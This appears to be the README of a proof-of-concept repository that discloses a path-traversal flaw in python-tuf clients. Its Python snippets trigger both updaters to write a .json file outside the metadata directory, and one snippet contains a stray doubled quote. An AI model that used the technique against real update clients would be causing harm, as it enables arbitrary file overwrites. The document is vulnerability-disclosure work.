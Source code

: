 # TUF client metadata path-traversal proof of concept

This repository will fool both python-tuf client implementations to write 
(overwrite) a file outside of the client metadata store when
`get_one_valid_targetinfo()` is called. For this specific example, the
file will be written one level above the metadata directory but likely
any arbitrary filepath (with .json extension) is possible.

### Examples assuming the repository root is hosted at `http://localhost:8000/`:

#### Legacy Updater
```python
# Directories ./metadata/current/ and ./metadata/previous/ must exist.
# Initial root must be in ./metadata/current/root.json.

import tuf.settings
from tuf.client.updater import Updater

tuf.settings.repositories_directory = "./"
repo_mirrors = {
    "mirror1": {
        "url_prefix": "http://localhost:8000",  "metadata_path": "", "targets_path": ""
    }
}
updater = Updater("", repo_mirrors)
updater.refresh()
updater.get_one_valid_targetinfo("any target name here")

# Local metadata dir is ./metadata/current/ but ./metadata/ now contains
# path-traversal-test.json
```

#### ngclient Updater

```python
# Initial root must be in ./root.json.

from tuf.ngclient import Updater
updater = Updater("./", ""http://localhost:8000/", "http://localhost:8000/")
updater.refresh()
updater.get_one_valid_targetinfo("any target name here")

# Local metadata dir is ./ but ../ now contains path-traversal-test.json
```
